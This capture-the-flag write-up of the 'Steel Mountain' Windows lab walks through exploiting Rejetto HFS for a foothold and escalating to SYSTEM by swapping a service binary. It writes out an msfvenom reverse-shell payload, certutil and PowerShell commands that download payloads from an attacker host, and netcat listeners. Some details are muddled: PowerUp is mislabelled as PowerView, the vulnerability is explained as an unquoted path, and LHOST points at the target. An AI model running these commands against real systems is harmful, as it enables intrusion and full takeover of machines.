


# Steel Mountain

## Enumeration

I started Enumeration by running Rustscan on the target. 

```
rustscan -a $machine_IP -- -A -sV -sC -vv

-sC - Script Scan
-sV - Version Scan
-T4 - Timing Template
-A  - Aggresive Scan Options
-vv - Verbosity level

.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------

Please contribute more quotes to our GitHub https://github.com/rustscan/rustscan
PORT      STATE SERVICE REASON  VERSION
5985/tcp  open  http    syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
8080/tcp  open  http    syn-ack HttpFileServer httpd 2.3
|_http-title: HFS /
|_http-favicon: Unknown favicon MD5: 759792EDD4EF8E6BC2D1877D27153CB1
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: HFS 2.3
47001/tcp open  http    syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
```

Navigating to $machine_IP:8080 provides more information about the server



Expanding the `Server Information` tab, opens the landing page to the Rejetto HTTP File Server



Armed with the File Server name and a version number, I identified potential exploits using `Searchsploit`

```
searchsploit rejetto                
--------------------------------------------------------------- ---------------------------------
 Exploit Title                                                 |  Path
--------------------------------------------------------------- ---------------------------------
Rejetto HTTP File Server (HFS) - Remote Command Execution (Met | windows/remote/34926.rb
Rejetto HTTP File Server (HFS) 1.5/2.x - Multiple Vulnerabilit | windows/remote/31056.py
Rejetto HTTP File Server (HFS) 2.2/2.3 - Arbitrary File Upload | multiple/remote/30850.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Executio | windows/remote/34668.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Executio | windows/remote/39161.py
Rejetto HTTP File Server (HFS) 2.3a/2.3b/2.3c - Remote Command | windows/webapps/34852.txt
Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)    | windows/webapps/49125.py
--------------------------------------------------------------- ---------------------------------
```

I was able to use the [HttpFileServer 2.3.x Remote Command Execution](https://www.exploit-db.com/exploits/39161) exploit through the `msf6 exploit(windows/http/rejetto_hfs_exec)` Metasploit module to gain initial access.

```
meterpreter > 
meterpreter > getuid
Server username: STEELMOUNTAIN\bill

meterpreter > dir
Listing: C:\Users\bill\Desktop
==============================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2019-09-27 07:07:07 -0400  desktop.ini
100666/rw-rw-rw-  70    fil   2019-09-27 08:42:38 -0400  user.txt

meterpreter > cat user.txt 
b04##############################
```

## Privilege Escalation

Upon gaining initial access, I was able to escalate privileges with and without Metasploit. For all purposes of this writeup, I will be walking through both vectors.

### With Metasploit

Having the luxury of a Meterpreter shell, I am able to bypass the `Python HTTP Server` and `wget` to upload scripts and exploits and utilize the `upload` functionality within Meterpreter to do so.

```
meterpreter > upload /home/kali/Desktop/Tools/PrivEsc/PowerUp/PowerUp.ps1
[*] uploading  : /home/kali/Desktop/Tools/PrivEsc/PowerUp/PowerUp.ps1 -> PowerUp.ps1
[*] Uploaded 2.10 MiB of 2.10 MiB (100.0%): /home/kali/Desktop/Tools/PrivEsc/PowerUp/PowerUp.ps1 -> PowerUp.ps1
[*] uploaded   : /home/kali/Desktop/Tools/PrivEsc/PowerUp/PowerUp.ps1 -> PowerUp.ps1
meterpreter > dir
Listing: C:\Users\bill\Desktop
==============================

Mode              Size     Type  Last modified              Name
----              ----     ----  -------------              ----
100666/rw-rw-rw-  2199869  fil   2022-01-28 21:03:03 -0500  PowerUp.ps1
100666/rw-rw-rw-  282      fil   2019-09-27 07:07:07 -0400  desktop.ini
100666/rw-rw-rw-  70       fil   2019-09-27 08:42:38 -0400  user.txt
```

This allows me to upload [PowerView](https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon), a PowerShell enumeration script that allows an attacker to gain situational awareness on Windows Domains. 

```
meterpreter > load powershell 
Loading extension powershell...Success.
meterpreter > powershell_shell 
PS >         
PS > . .\power2.ps1
PS > Invoke-AllChecks

ServiceName                     : AdvancedSystemCareService9
Path                            : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiableFile                  : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiableFilePermissions       : {WriteAttributes, Synchronize, ReadControl, ReadData/ListDirectory...}
ModifiableFileIdentityReference : STEELMOUNTAIN\bill
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'AdvancedSystemCareService9'
CanRestart                      : True 
Name                            : AdvancedSystemCareService9
Check                           : Modifiable Service Files
```

With the `CanRestart` parameter being set to "True" and the absence of appropriate quote enclosing and instead being separated by spaces `C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe`. In Windows, if the service is not enclosed within quotes and is having spaces, it handles the space as a break and passes the rest of the service path as an argument. This vulnerability results in an exploit involving a restart of the service and this can be exploited to include an escalation when restarting. This is done by replacing the legitimate application with a malicious one. When the service is restarted, the malicious program is injected and root escalation is possible. 

I used Msfvenom to generate a reverse shell as an Windows executable

```
msfvenom -p windows/shell_reverse_tcp LHOST=$machine_IP LPORT=4444 -e x86/shikata_ga_nai -f exe -o advanced2.exe
```

Following this, I upload the malicious payload to the target

```
meterpreter > upload /home/kali/Desktop/advanced2.exe
```

The service is then stopped and started

```
C:\Program Files (x86)\IObit>sc stop AdvancedSystemCareService9
C:\Program Files (x86)\IObit>sc start AdvancedSystemCareService9
```

Meanwhile, I open a netcat listener to pick up the Msfvenom reverse shell and once the service is restarted, I receive a reverse shell. 

```
nc -lvnp 4444  
listening on [any] 4444 ...
connect to [10.4.34.137] from (UNKNOWN) [10.10.166.95] 49263
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
C:\Users\Administrator\Desktop>type root.txt
type root.txt
9af############################
```

### Without Metasploit

This is, for the most part, the same process, except this time around, I will be replacing the Meterpreter shell and the msfvenom payloads with a manual transfer of the payload. 
I use the same [Rejetto payload](https://www.exploit-db.com/exploits/39161) from the Searchsploit results to get my initial foothold. After getting the user level shell, I am able to download PowerUp, `nc.exe` & `WinPeas` using `wget` 

```
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
wget https://github.com/andrew-d/static-binaries/blob/0be803093b7d4b627b4d4eddd732e54ac4184b67/binaries/windows/x86/ncat.exe
wget https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/a17f91745cafc5fa43a428d766294190c0ff70a1/winPEAS/winPEASexe/binaries/x86/Release/winPEASx86.exe
```

After getting the user foothold, I use `certutil.exe` and PowerShell to transfer files over to the victim. 

```
certutil.exe -urlcache -split -f http://Yourmachine_ip/winPEASx86.exe
powershell -c "Invoke-WebRequest -Uri 'http://THM_IP:80/advanced3.exe' -OutFile 'C:\Users\bill\Desktop\advanced.exe'"
```

This is swiftly followed by stopping and restarting the service

```
sc stop AdvancedSystemCareService9

sc start AdvancedSystemCareService9
sc start AdvancedSystemCareService9
[SC] StartService FAILED 1053:
```

Meanwhile, I had a netcat listener on port 9999 which gave me a root shell and allowed me to grab the `root.txt` flag to complete this CTF.

```
rlwrap nc -lvnp 9999
listening on [any] 9999 ...
connect to [THM_IP] from (UNKNOWN) [$machine_IP] 49204
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

whoami
whoami
nt authority\system

type root.txt
9af#########################
```